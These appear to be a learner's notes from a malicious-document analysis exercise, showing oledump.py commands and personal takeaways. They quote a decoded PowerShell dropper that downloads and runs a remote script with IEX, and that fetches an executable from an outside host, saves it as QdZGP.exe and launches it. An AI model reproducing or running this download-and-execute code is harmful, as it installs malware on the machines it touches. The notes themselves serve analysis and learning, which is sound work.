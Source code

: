 Important Takeways
```bash
# Noting went well I found and noted Replace() function that helps in decoding the powershell script

# Best practice seems to be go string by string till you hit a good line
oledump.py -s $int $maldoc
oledump.py -s $specialLineNum -S $maldoc
```

![](followingonday1.png)

Nice bit of bad php that contains answers 1-5
```php
$instance = [System.Activator]::CreateInstance("System.Net.WebClient");
$method = [System.Net.WebClient].GetMethods();
foreach($m in $method){

  if($m.Name -eq "DownloadString"){
    try{
     $uri = New-Object System.Uri("http://176.32.35.16/704e.php")
     IEX($m.Invoke($instance, ($uri)));
    }catch{}

  }

  if($m.Name -eq "DownloadData"){
     try{
     $uri = New-Object System.Uri("http://fpetraardella.band/xap_102b-AZ1/704e.php?l=litten4.gas")
     $response = $m.Invoke($instance, ($uri));

     $path = [System.Environment]::GetFolderPath("CommonApplicationData") + "\\QdZGP.exe";
     [System.IO.File]::WriteAllBytes($path, $response);

     $clsid = New-Object Guid 'C08AFD90-F2A1-11D1-8455-00A0C91F3880'
     $type = [Type]::GetTypeFromCLSID($clsid)
     $object = [Activator]::CreateInstance($type)
     $object.Document.Application.ShellExecute($path,$nul, $nul, $nul,0)

     }catch{}
     
  }
}

Exit;
```


QB-X Notes
```
Columbo deals in components and I just looked at the VBA like the attacker would have wanted and fell down a particial rabbithole of fear!

Solution:
- Have a fast eye for what you want to look for first
- Input: toLookFor -> FastEyes(X amount of time) -> Output
```
